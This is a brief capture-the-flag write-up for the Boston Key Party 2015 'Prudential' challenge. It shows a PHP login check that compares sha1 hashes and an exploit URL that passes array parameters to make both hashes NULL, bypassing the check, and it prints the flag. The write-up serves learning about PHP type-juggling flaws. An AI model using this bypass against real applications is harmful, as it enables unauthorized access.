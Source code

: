 # Boston Key Party CTF 2015: Prudential

**Category:** School-Bus
**Points:** 25
**Solves:** 426
**Description:**

> I dont think that sha1 is broken. Prove me wrong. : 25

## Write-up

We are given the [php source code](./52.10.107.64\:8001/index.txt) and see that the author compares the sha1 hashes of the `name` and `password` query parameters:

```php
[...]
else if (sha1($_GET['name']) === sha1($_GET['password']))
[...]
```

We can force the results for both inputs to be null, e.g. with `http://52.10.107.64:8001/?name[]=s&password[]=ss` so that it results in the following check:

```php
[...]
else if (sha1(NULL) === sha1(NULL))
[...]
```

The flag is `I_think_that_I_just_broke_sha1`.

## Other write-ups and resources

* <https://github.com/bl4de/ctf/blob/master/BostonKeyPartyCTF_2015/Prudential.md>
* <https://ctf-team.vulnhub.com/boston-key-party-2015-prudential/>
* [Indonesian](http://blog.rentjong.net/2015/03/boston-key-party-2015-prudential.html)
